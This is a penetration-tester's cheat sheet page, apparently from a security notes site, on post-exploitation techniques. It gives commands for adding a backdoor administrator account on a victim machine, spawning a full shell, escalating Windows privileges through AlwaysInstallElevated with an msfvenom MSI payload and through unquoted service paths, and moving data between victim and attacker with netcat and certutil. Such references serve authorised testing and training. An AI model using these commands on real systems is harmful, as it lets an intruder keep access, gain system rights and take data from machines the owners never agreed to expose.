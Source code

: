 ```yaml
---
title: Exploitation
---
```


[Home](./)

_Ensuring you don't have to re-exploit over and over again_

## Creating Windows Admin Account
```bash
# Victim
net user /add jack sparrow
net localgroup administrators jack /add

# Connect with
rdesktop -u jim -p sparrow [IP-ADDRESS]
```

## Executing in Memory - TMPFS

```bash
mount | grep ^tmp

# Example:
# tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
# tmpfs on /tmp type tmpfs (rw,nosuid,nodev)
#
# Beware of the "noexec" flag; executing programs will fail
```

## Get full TTY shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Switch user

```bash
su $USER
```

## Run Single command as a different user

### Linux

```bash
sudo -u $USER $cmd
```

### Windows 

```bash
echo "$PASSWORD" | runas /profile /user:$USER “$COMMAND”
```

+ [sudo.cmd](./assests/sudo.cmd)<sup><sub>[[copy&paste](assets/files/sudo.cmd.txt)]


## Windows Privilege Escalation

### Windows Service / DLL Templates

+ [windows_dll.c](https://github.com/sagishahar/scripts/blob/master/windows_dll.c) <sup><sub>[[archive](assets/files/windows_dll.c)]

+ [windows_service.c](https://github.com/sagishahar/scripts/blob/master/windows_service.c) <sup><sub>[[archive](assets/files/windows_service.c)]

#### Cross-compiling for Windows

##### C & C++

```bash
# Setup
apt install mingw-w64

# x86
x86_64-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst] -lws2_32

# x64
i686-w64-mingw32-gcc [src.c] [-libraries] -o [dst]
```

##### C#

```bash
# Setup 
# Add repo with https://www.mono-project.com/download/stable/
sudo apt-get install mono-complete msbuild mono-roslyn

# Building
msbuild [src.sln]
```

#### Using Python Scripts without Python installed
[PyInstaller](https://github.com/pyinstaller/pyinstaller) <sup><sub>[[archive](assets/files/PyInstaller-3.6.zip)]
```bash
pyinstaller yourprogram.py
```

### Always Install Elevated
```bash
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer

# If both of these are 0x1 - you can install msi packages as system.
# Generate MSI Payload with:
msfvenom [blah blah blah] -f msi -o setup.msi

# Execute it with:
msiexec /quiet /qn /i setup.msi
```

### Unquoted Paths

When windows sees the a service is pointed to `C:\Program Files\Something Here\service.exe` (**without quotes around it**), it will try to run the following in order:

```bash
C:\Program.exe
C:\Program Files\Something.exe
C:\Program Files\Something Here\service.exe
```

If you make sure one of these exists before the legitimate is called, you can get code execution.

## Exfiltration

+ SSH Copy (scp)

```bash
scp user@hostname:/path/to/src user@hostname:/path/to/dst
```

+ Netcat

```bash
# Victim
nc -nvlp $RPORT > out.file

# Attacker
nc -nv $RHOST $RPORT < in.file
```

+ exe2bat

```bash
# Convert a windows executable to a copy and paste set of commands
wine $(locate exe2bat.exe) nc.exe nc.txt
```

+ certutil.exe

```bash
certutil.exe -urlcache -split -f “$URL” $FILENAME
```

+ [zip.vbs](assets/files/zip.vbs) <sup><sub>[[copy&paste](assets/files/zip.vbs.txt)]

```bash
CScript zip.vbs $SRC $DEST
```

+ [wget.vbs](assets/files/wget.vbs) <sup><sub>[[copy&paste](assets/files/wget.vbs.txt)]

```bash
CScript wget.vbs $SRC $DEST
```

## Fun Tips

### Linux Write a file without a text editor

```bash
cat <<EOF> [file]
```